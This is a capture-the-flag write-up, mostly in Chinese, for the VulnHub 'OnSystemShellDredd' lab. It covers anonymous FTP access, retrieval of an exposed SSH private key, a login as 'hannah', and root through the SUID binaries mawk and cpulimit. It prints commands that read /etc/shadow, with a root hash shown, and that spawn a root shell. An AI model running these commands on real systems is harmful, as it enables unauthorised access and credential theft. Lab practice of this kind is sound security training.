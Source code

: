 # OnSystemShellDredd

2024-5-28 https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/

difficulty: easy

## IP

192.168.237.130

## Scan

Open Port -> 21,61000

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.45.238
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 592d210c2faf9d5a7b3ea427aa378908 (RSA)
|   256 5926da443b97d230b19b9b02748b8758 (ECDSA)
|_  256 8ead104fe33e652840cb5bbf1d247f17 (ED25519)
```

21 ftp 允许匿名登陆，看看有什么信息。登陆后，在 .hannah 隐藏目录中发现 id_rsa，mget 下载到 kali 上。chmod 600

ssh 登陆不知道用户名，看到那个 .hannah 的文件夹，猜测用户名可能是 hannah，尝试登陆：

```
ssh -i id_rsa hannah@192.168.237.130 -p 61000
```

登陆成功,发现 flag：

```
hannah@ShellDredd:~$ cat local.txt
2375cc1f117fb9ffbcbf6d4911fd9dbc
```

sudo、crontab 都没发现特殊设置。

发现 suid 程序：

```
find / -perm -u=s -ls 2>/dev/null

/usr/bin/mawk
/usr/bin/cpulimit
```

进行利用：

```
mawk '//' "/root/proof.txt"

b305169c37ca8ff9bb0f073e26d53390
```

```
mawk '//' "/etc/shadow"

root:$6$pUGgTFAG7pM5Sy5M$SXmRNf2GSZhId7mGCsFwJ4UCweCXGKSMIO8/qDM6NsiKckV8UZeZefDYw2CL2uAEwawIufKMv/e1Q6YDyTeqp0:18656:0:99999:7:::
```

```
hannah@ShellDredd:/var/spool/cron$ cpulimit -l 100 -f -- /bin/sh -p
Process 1288 detected
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
# cd /root
# ls
proof.txt  root.txt
```
